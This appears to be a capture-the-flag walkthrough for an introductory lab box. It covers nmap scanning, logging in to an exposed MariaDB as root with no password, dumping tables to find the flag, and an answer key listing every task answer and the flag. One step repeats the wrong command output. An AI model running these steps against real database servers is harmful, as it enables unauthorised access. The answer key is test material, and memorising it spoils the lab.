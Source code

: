 ## Walkthrough

- nmap scans

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.172.2
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 22:13 IST
Nmap scan report for 10.129.172.2
Host is up (0.45s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 51.37 seconds
```

```
┌─[birb@coffee]─[~]
└──╼ $nmap 10.129.172.2 -sC -sV -p3306
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 22:19 IST
Nmap scan report for 10.129.172.2
Host is up (0.34s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 70
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolNew, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, SupportsCompression, SupportsTransactions, InteractiveClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, FoundRows, ConnectWithDatabase, DontAllowDatabaseTableColumn, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: |qC::Pe-O&nz:Pe*@Bku
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 223.45 seconds
```

- connected to database using `mysql` command line utility

```
┌─[birb@coffee]─[~]
└──╼ $mysql -h 10.129.172.2 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 84
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

- listed all the databases

```
MariaDB [(none)]> SHOW DATABASEs;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.297 sec)
```

- selected `htb` database (sounded sus)

```
MariaDB [(none)]> SHOW DATABASEs;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.297 sec)
```

- tables in `htb` database

```
MariaDB [htb]> SHOW TABLES;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.401 sec)
```

- found `flag` in table `config`

```
MariaDB [htb]> SELECT * FROM config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.588 sec)
```

- TIP : [visit me](https://dev.mysql.com/doc/mysql-getting-started/en/) to get started with mysql

## Tasks

**During our scan, which port do we find serving MySQL?**

=> 3306

**What community-developed MySQL version is the target running?**

=> MariaDB

**When using the MySQL command line client, what switch do we need to use in order to specify a login username?**

=> -u

**Which username allows us to log into this MariaDB instance without providing a password?**

=> root

**In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?**

=> *

**There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?**

=> htb

**Submit root flag**

=> 7b4bec00d1a39e3dd4e021ec3d915da8
